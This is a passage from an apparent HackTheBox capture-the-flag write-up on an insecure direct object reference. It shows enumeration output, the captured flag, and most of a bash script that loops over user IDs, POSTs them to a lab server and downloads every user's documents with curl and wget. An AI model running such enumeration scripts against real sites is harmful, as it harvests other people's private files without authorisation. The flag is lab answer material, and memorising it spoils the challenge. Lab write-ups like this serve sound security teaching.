 ```
Testing UID 20...
[+] Found documents for UID 20:
/documents/Invoice_20_06_2020.pdf
/documents/Report_20_01_2021.pdf
Downloading Invoice_20_06_2020.pdf...
Downloading Report_20_01_2021.pdf...
Operation complete. Check results.txt for details
```

We got our flag:

```
HTB{4ll_f1l35_4r3_m1n3}
```


But this is a lot of output and it can be tedious, we can modify the script a bit more for it to only show us the flag and delete all other files from our system after it's ended:

```bash
#!/bin/bash

url="http://94.237.59.180:34953"
temp_dir=".temp_docs"
flag_file=""
declare -a downloaded_files

# Create temporary directory
mkdir -p "$temp_dir"
cd "$temp_dir" || exit

cleanup() {
 echo "Cleaning up..."
 # Delete all files except the flag-containing file
 if [ -n "$flag_file" ]; then
 find . -type f ! -name "$flag_file" -delete
 echo "Kept flag file: $flag_file"
 else
 rm -f ./*
 echo "No flag found. All files deleted."
 fi
 cd .. && rmdir "$temp_dir" 2>/dev/null
}

# Capture CTRL+C to ensure cleanup
trap cleanup EXIT

for i in {1..20}; do
 # Get document links via POST
 links=$(curl -s -X POST "$url/documents.php" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -d "uid=$i" | grep -oP '\/documents\/.*?\.(pdf|txt)')

 [ -z "$links" ] && continue

 # Download files silently
 for link in $links; do
 filename=$(basename "$link")
 wget -q "$url$link" -O "$filename"
 downloaded_files+=("$filename")
 
 # Check for flag pattern in text files
 if [[ "$filename" == *.txt ]]; then
 if grep -qP 'HTB\{.*?\}' "$filename"; then
 flag_file="$filename"
 echo -e "\n\033[1;92mFLAG FOUND!\033[0m"
```